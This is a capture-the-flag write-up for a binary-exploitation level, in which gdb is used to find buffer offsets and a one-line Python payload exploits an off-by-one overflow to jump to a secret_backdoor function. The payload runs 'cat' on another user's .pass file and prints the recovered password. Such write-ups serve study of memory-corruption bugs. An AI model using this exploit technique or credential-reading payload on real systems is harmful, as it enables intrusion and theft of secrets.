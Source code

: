 Program behavior:
1. Sets message length to 140 bytes;
2. Reads from stdin to a buffer (username) using `fgets` function;
3. Copies that buffer to a struct using `for` loop;
4. Reads from stdin to a buffer (msg) using `fgets` function;
5. Copies that buffer to a struct using `strncpy` function;

Solution:
Call `secret_backdoor` function using off-by-one overflow.

# Launch the debugger
gdb level09
# Disassemble set_username
disassemble set_username
`0x0000555555554a6a <+157>:   cmpl   $0x28,-0x4(%rbp)`
# Calculate first offset
print/d 0x28
`$1 = 40`
# Run the debugged program
start
# Calculate new length value
print/x ($rbp + 8) - ($rbp - 0xc0) + 8
`$1 = 0xd0`
# Calculate second offset
print/d ($rbp + 8) - ($rbp - 0xc0)
`$2 = 200`
# Get address of secret_backdoor function
print/a &secret_backdoor
`$3 = 0x55555555488c <secret_backdoor>`
# Initiate off-by-one overfloww
(python -c 'print "B" * 40 + "\xd0\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00\n" + "cat /home/users/end/.pass"') | ./level09
`j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
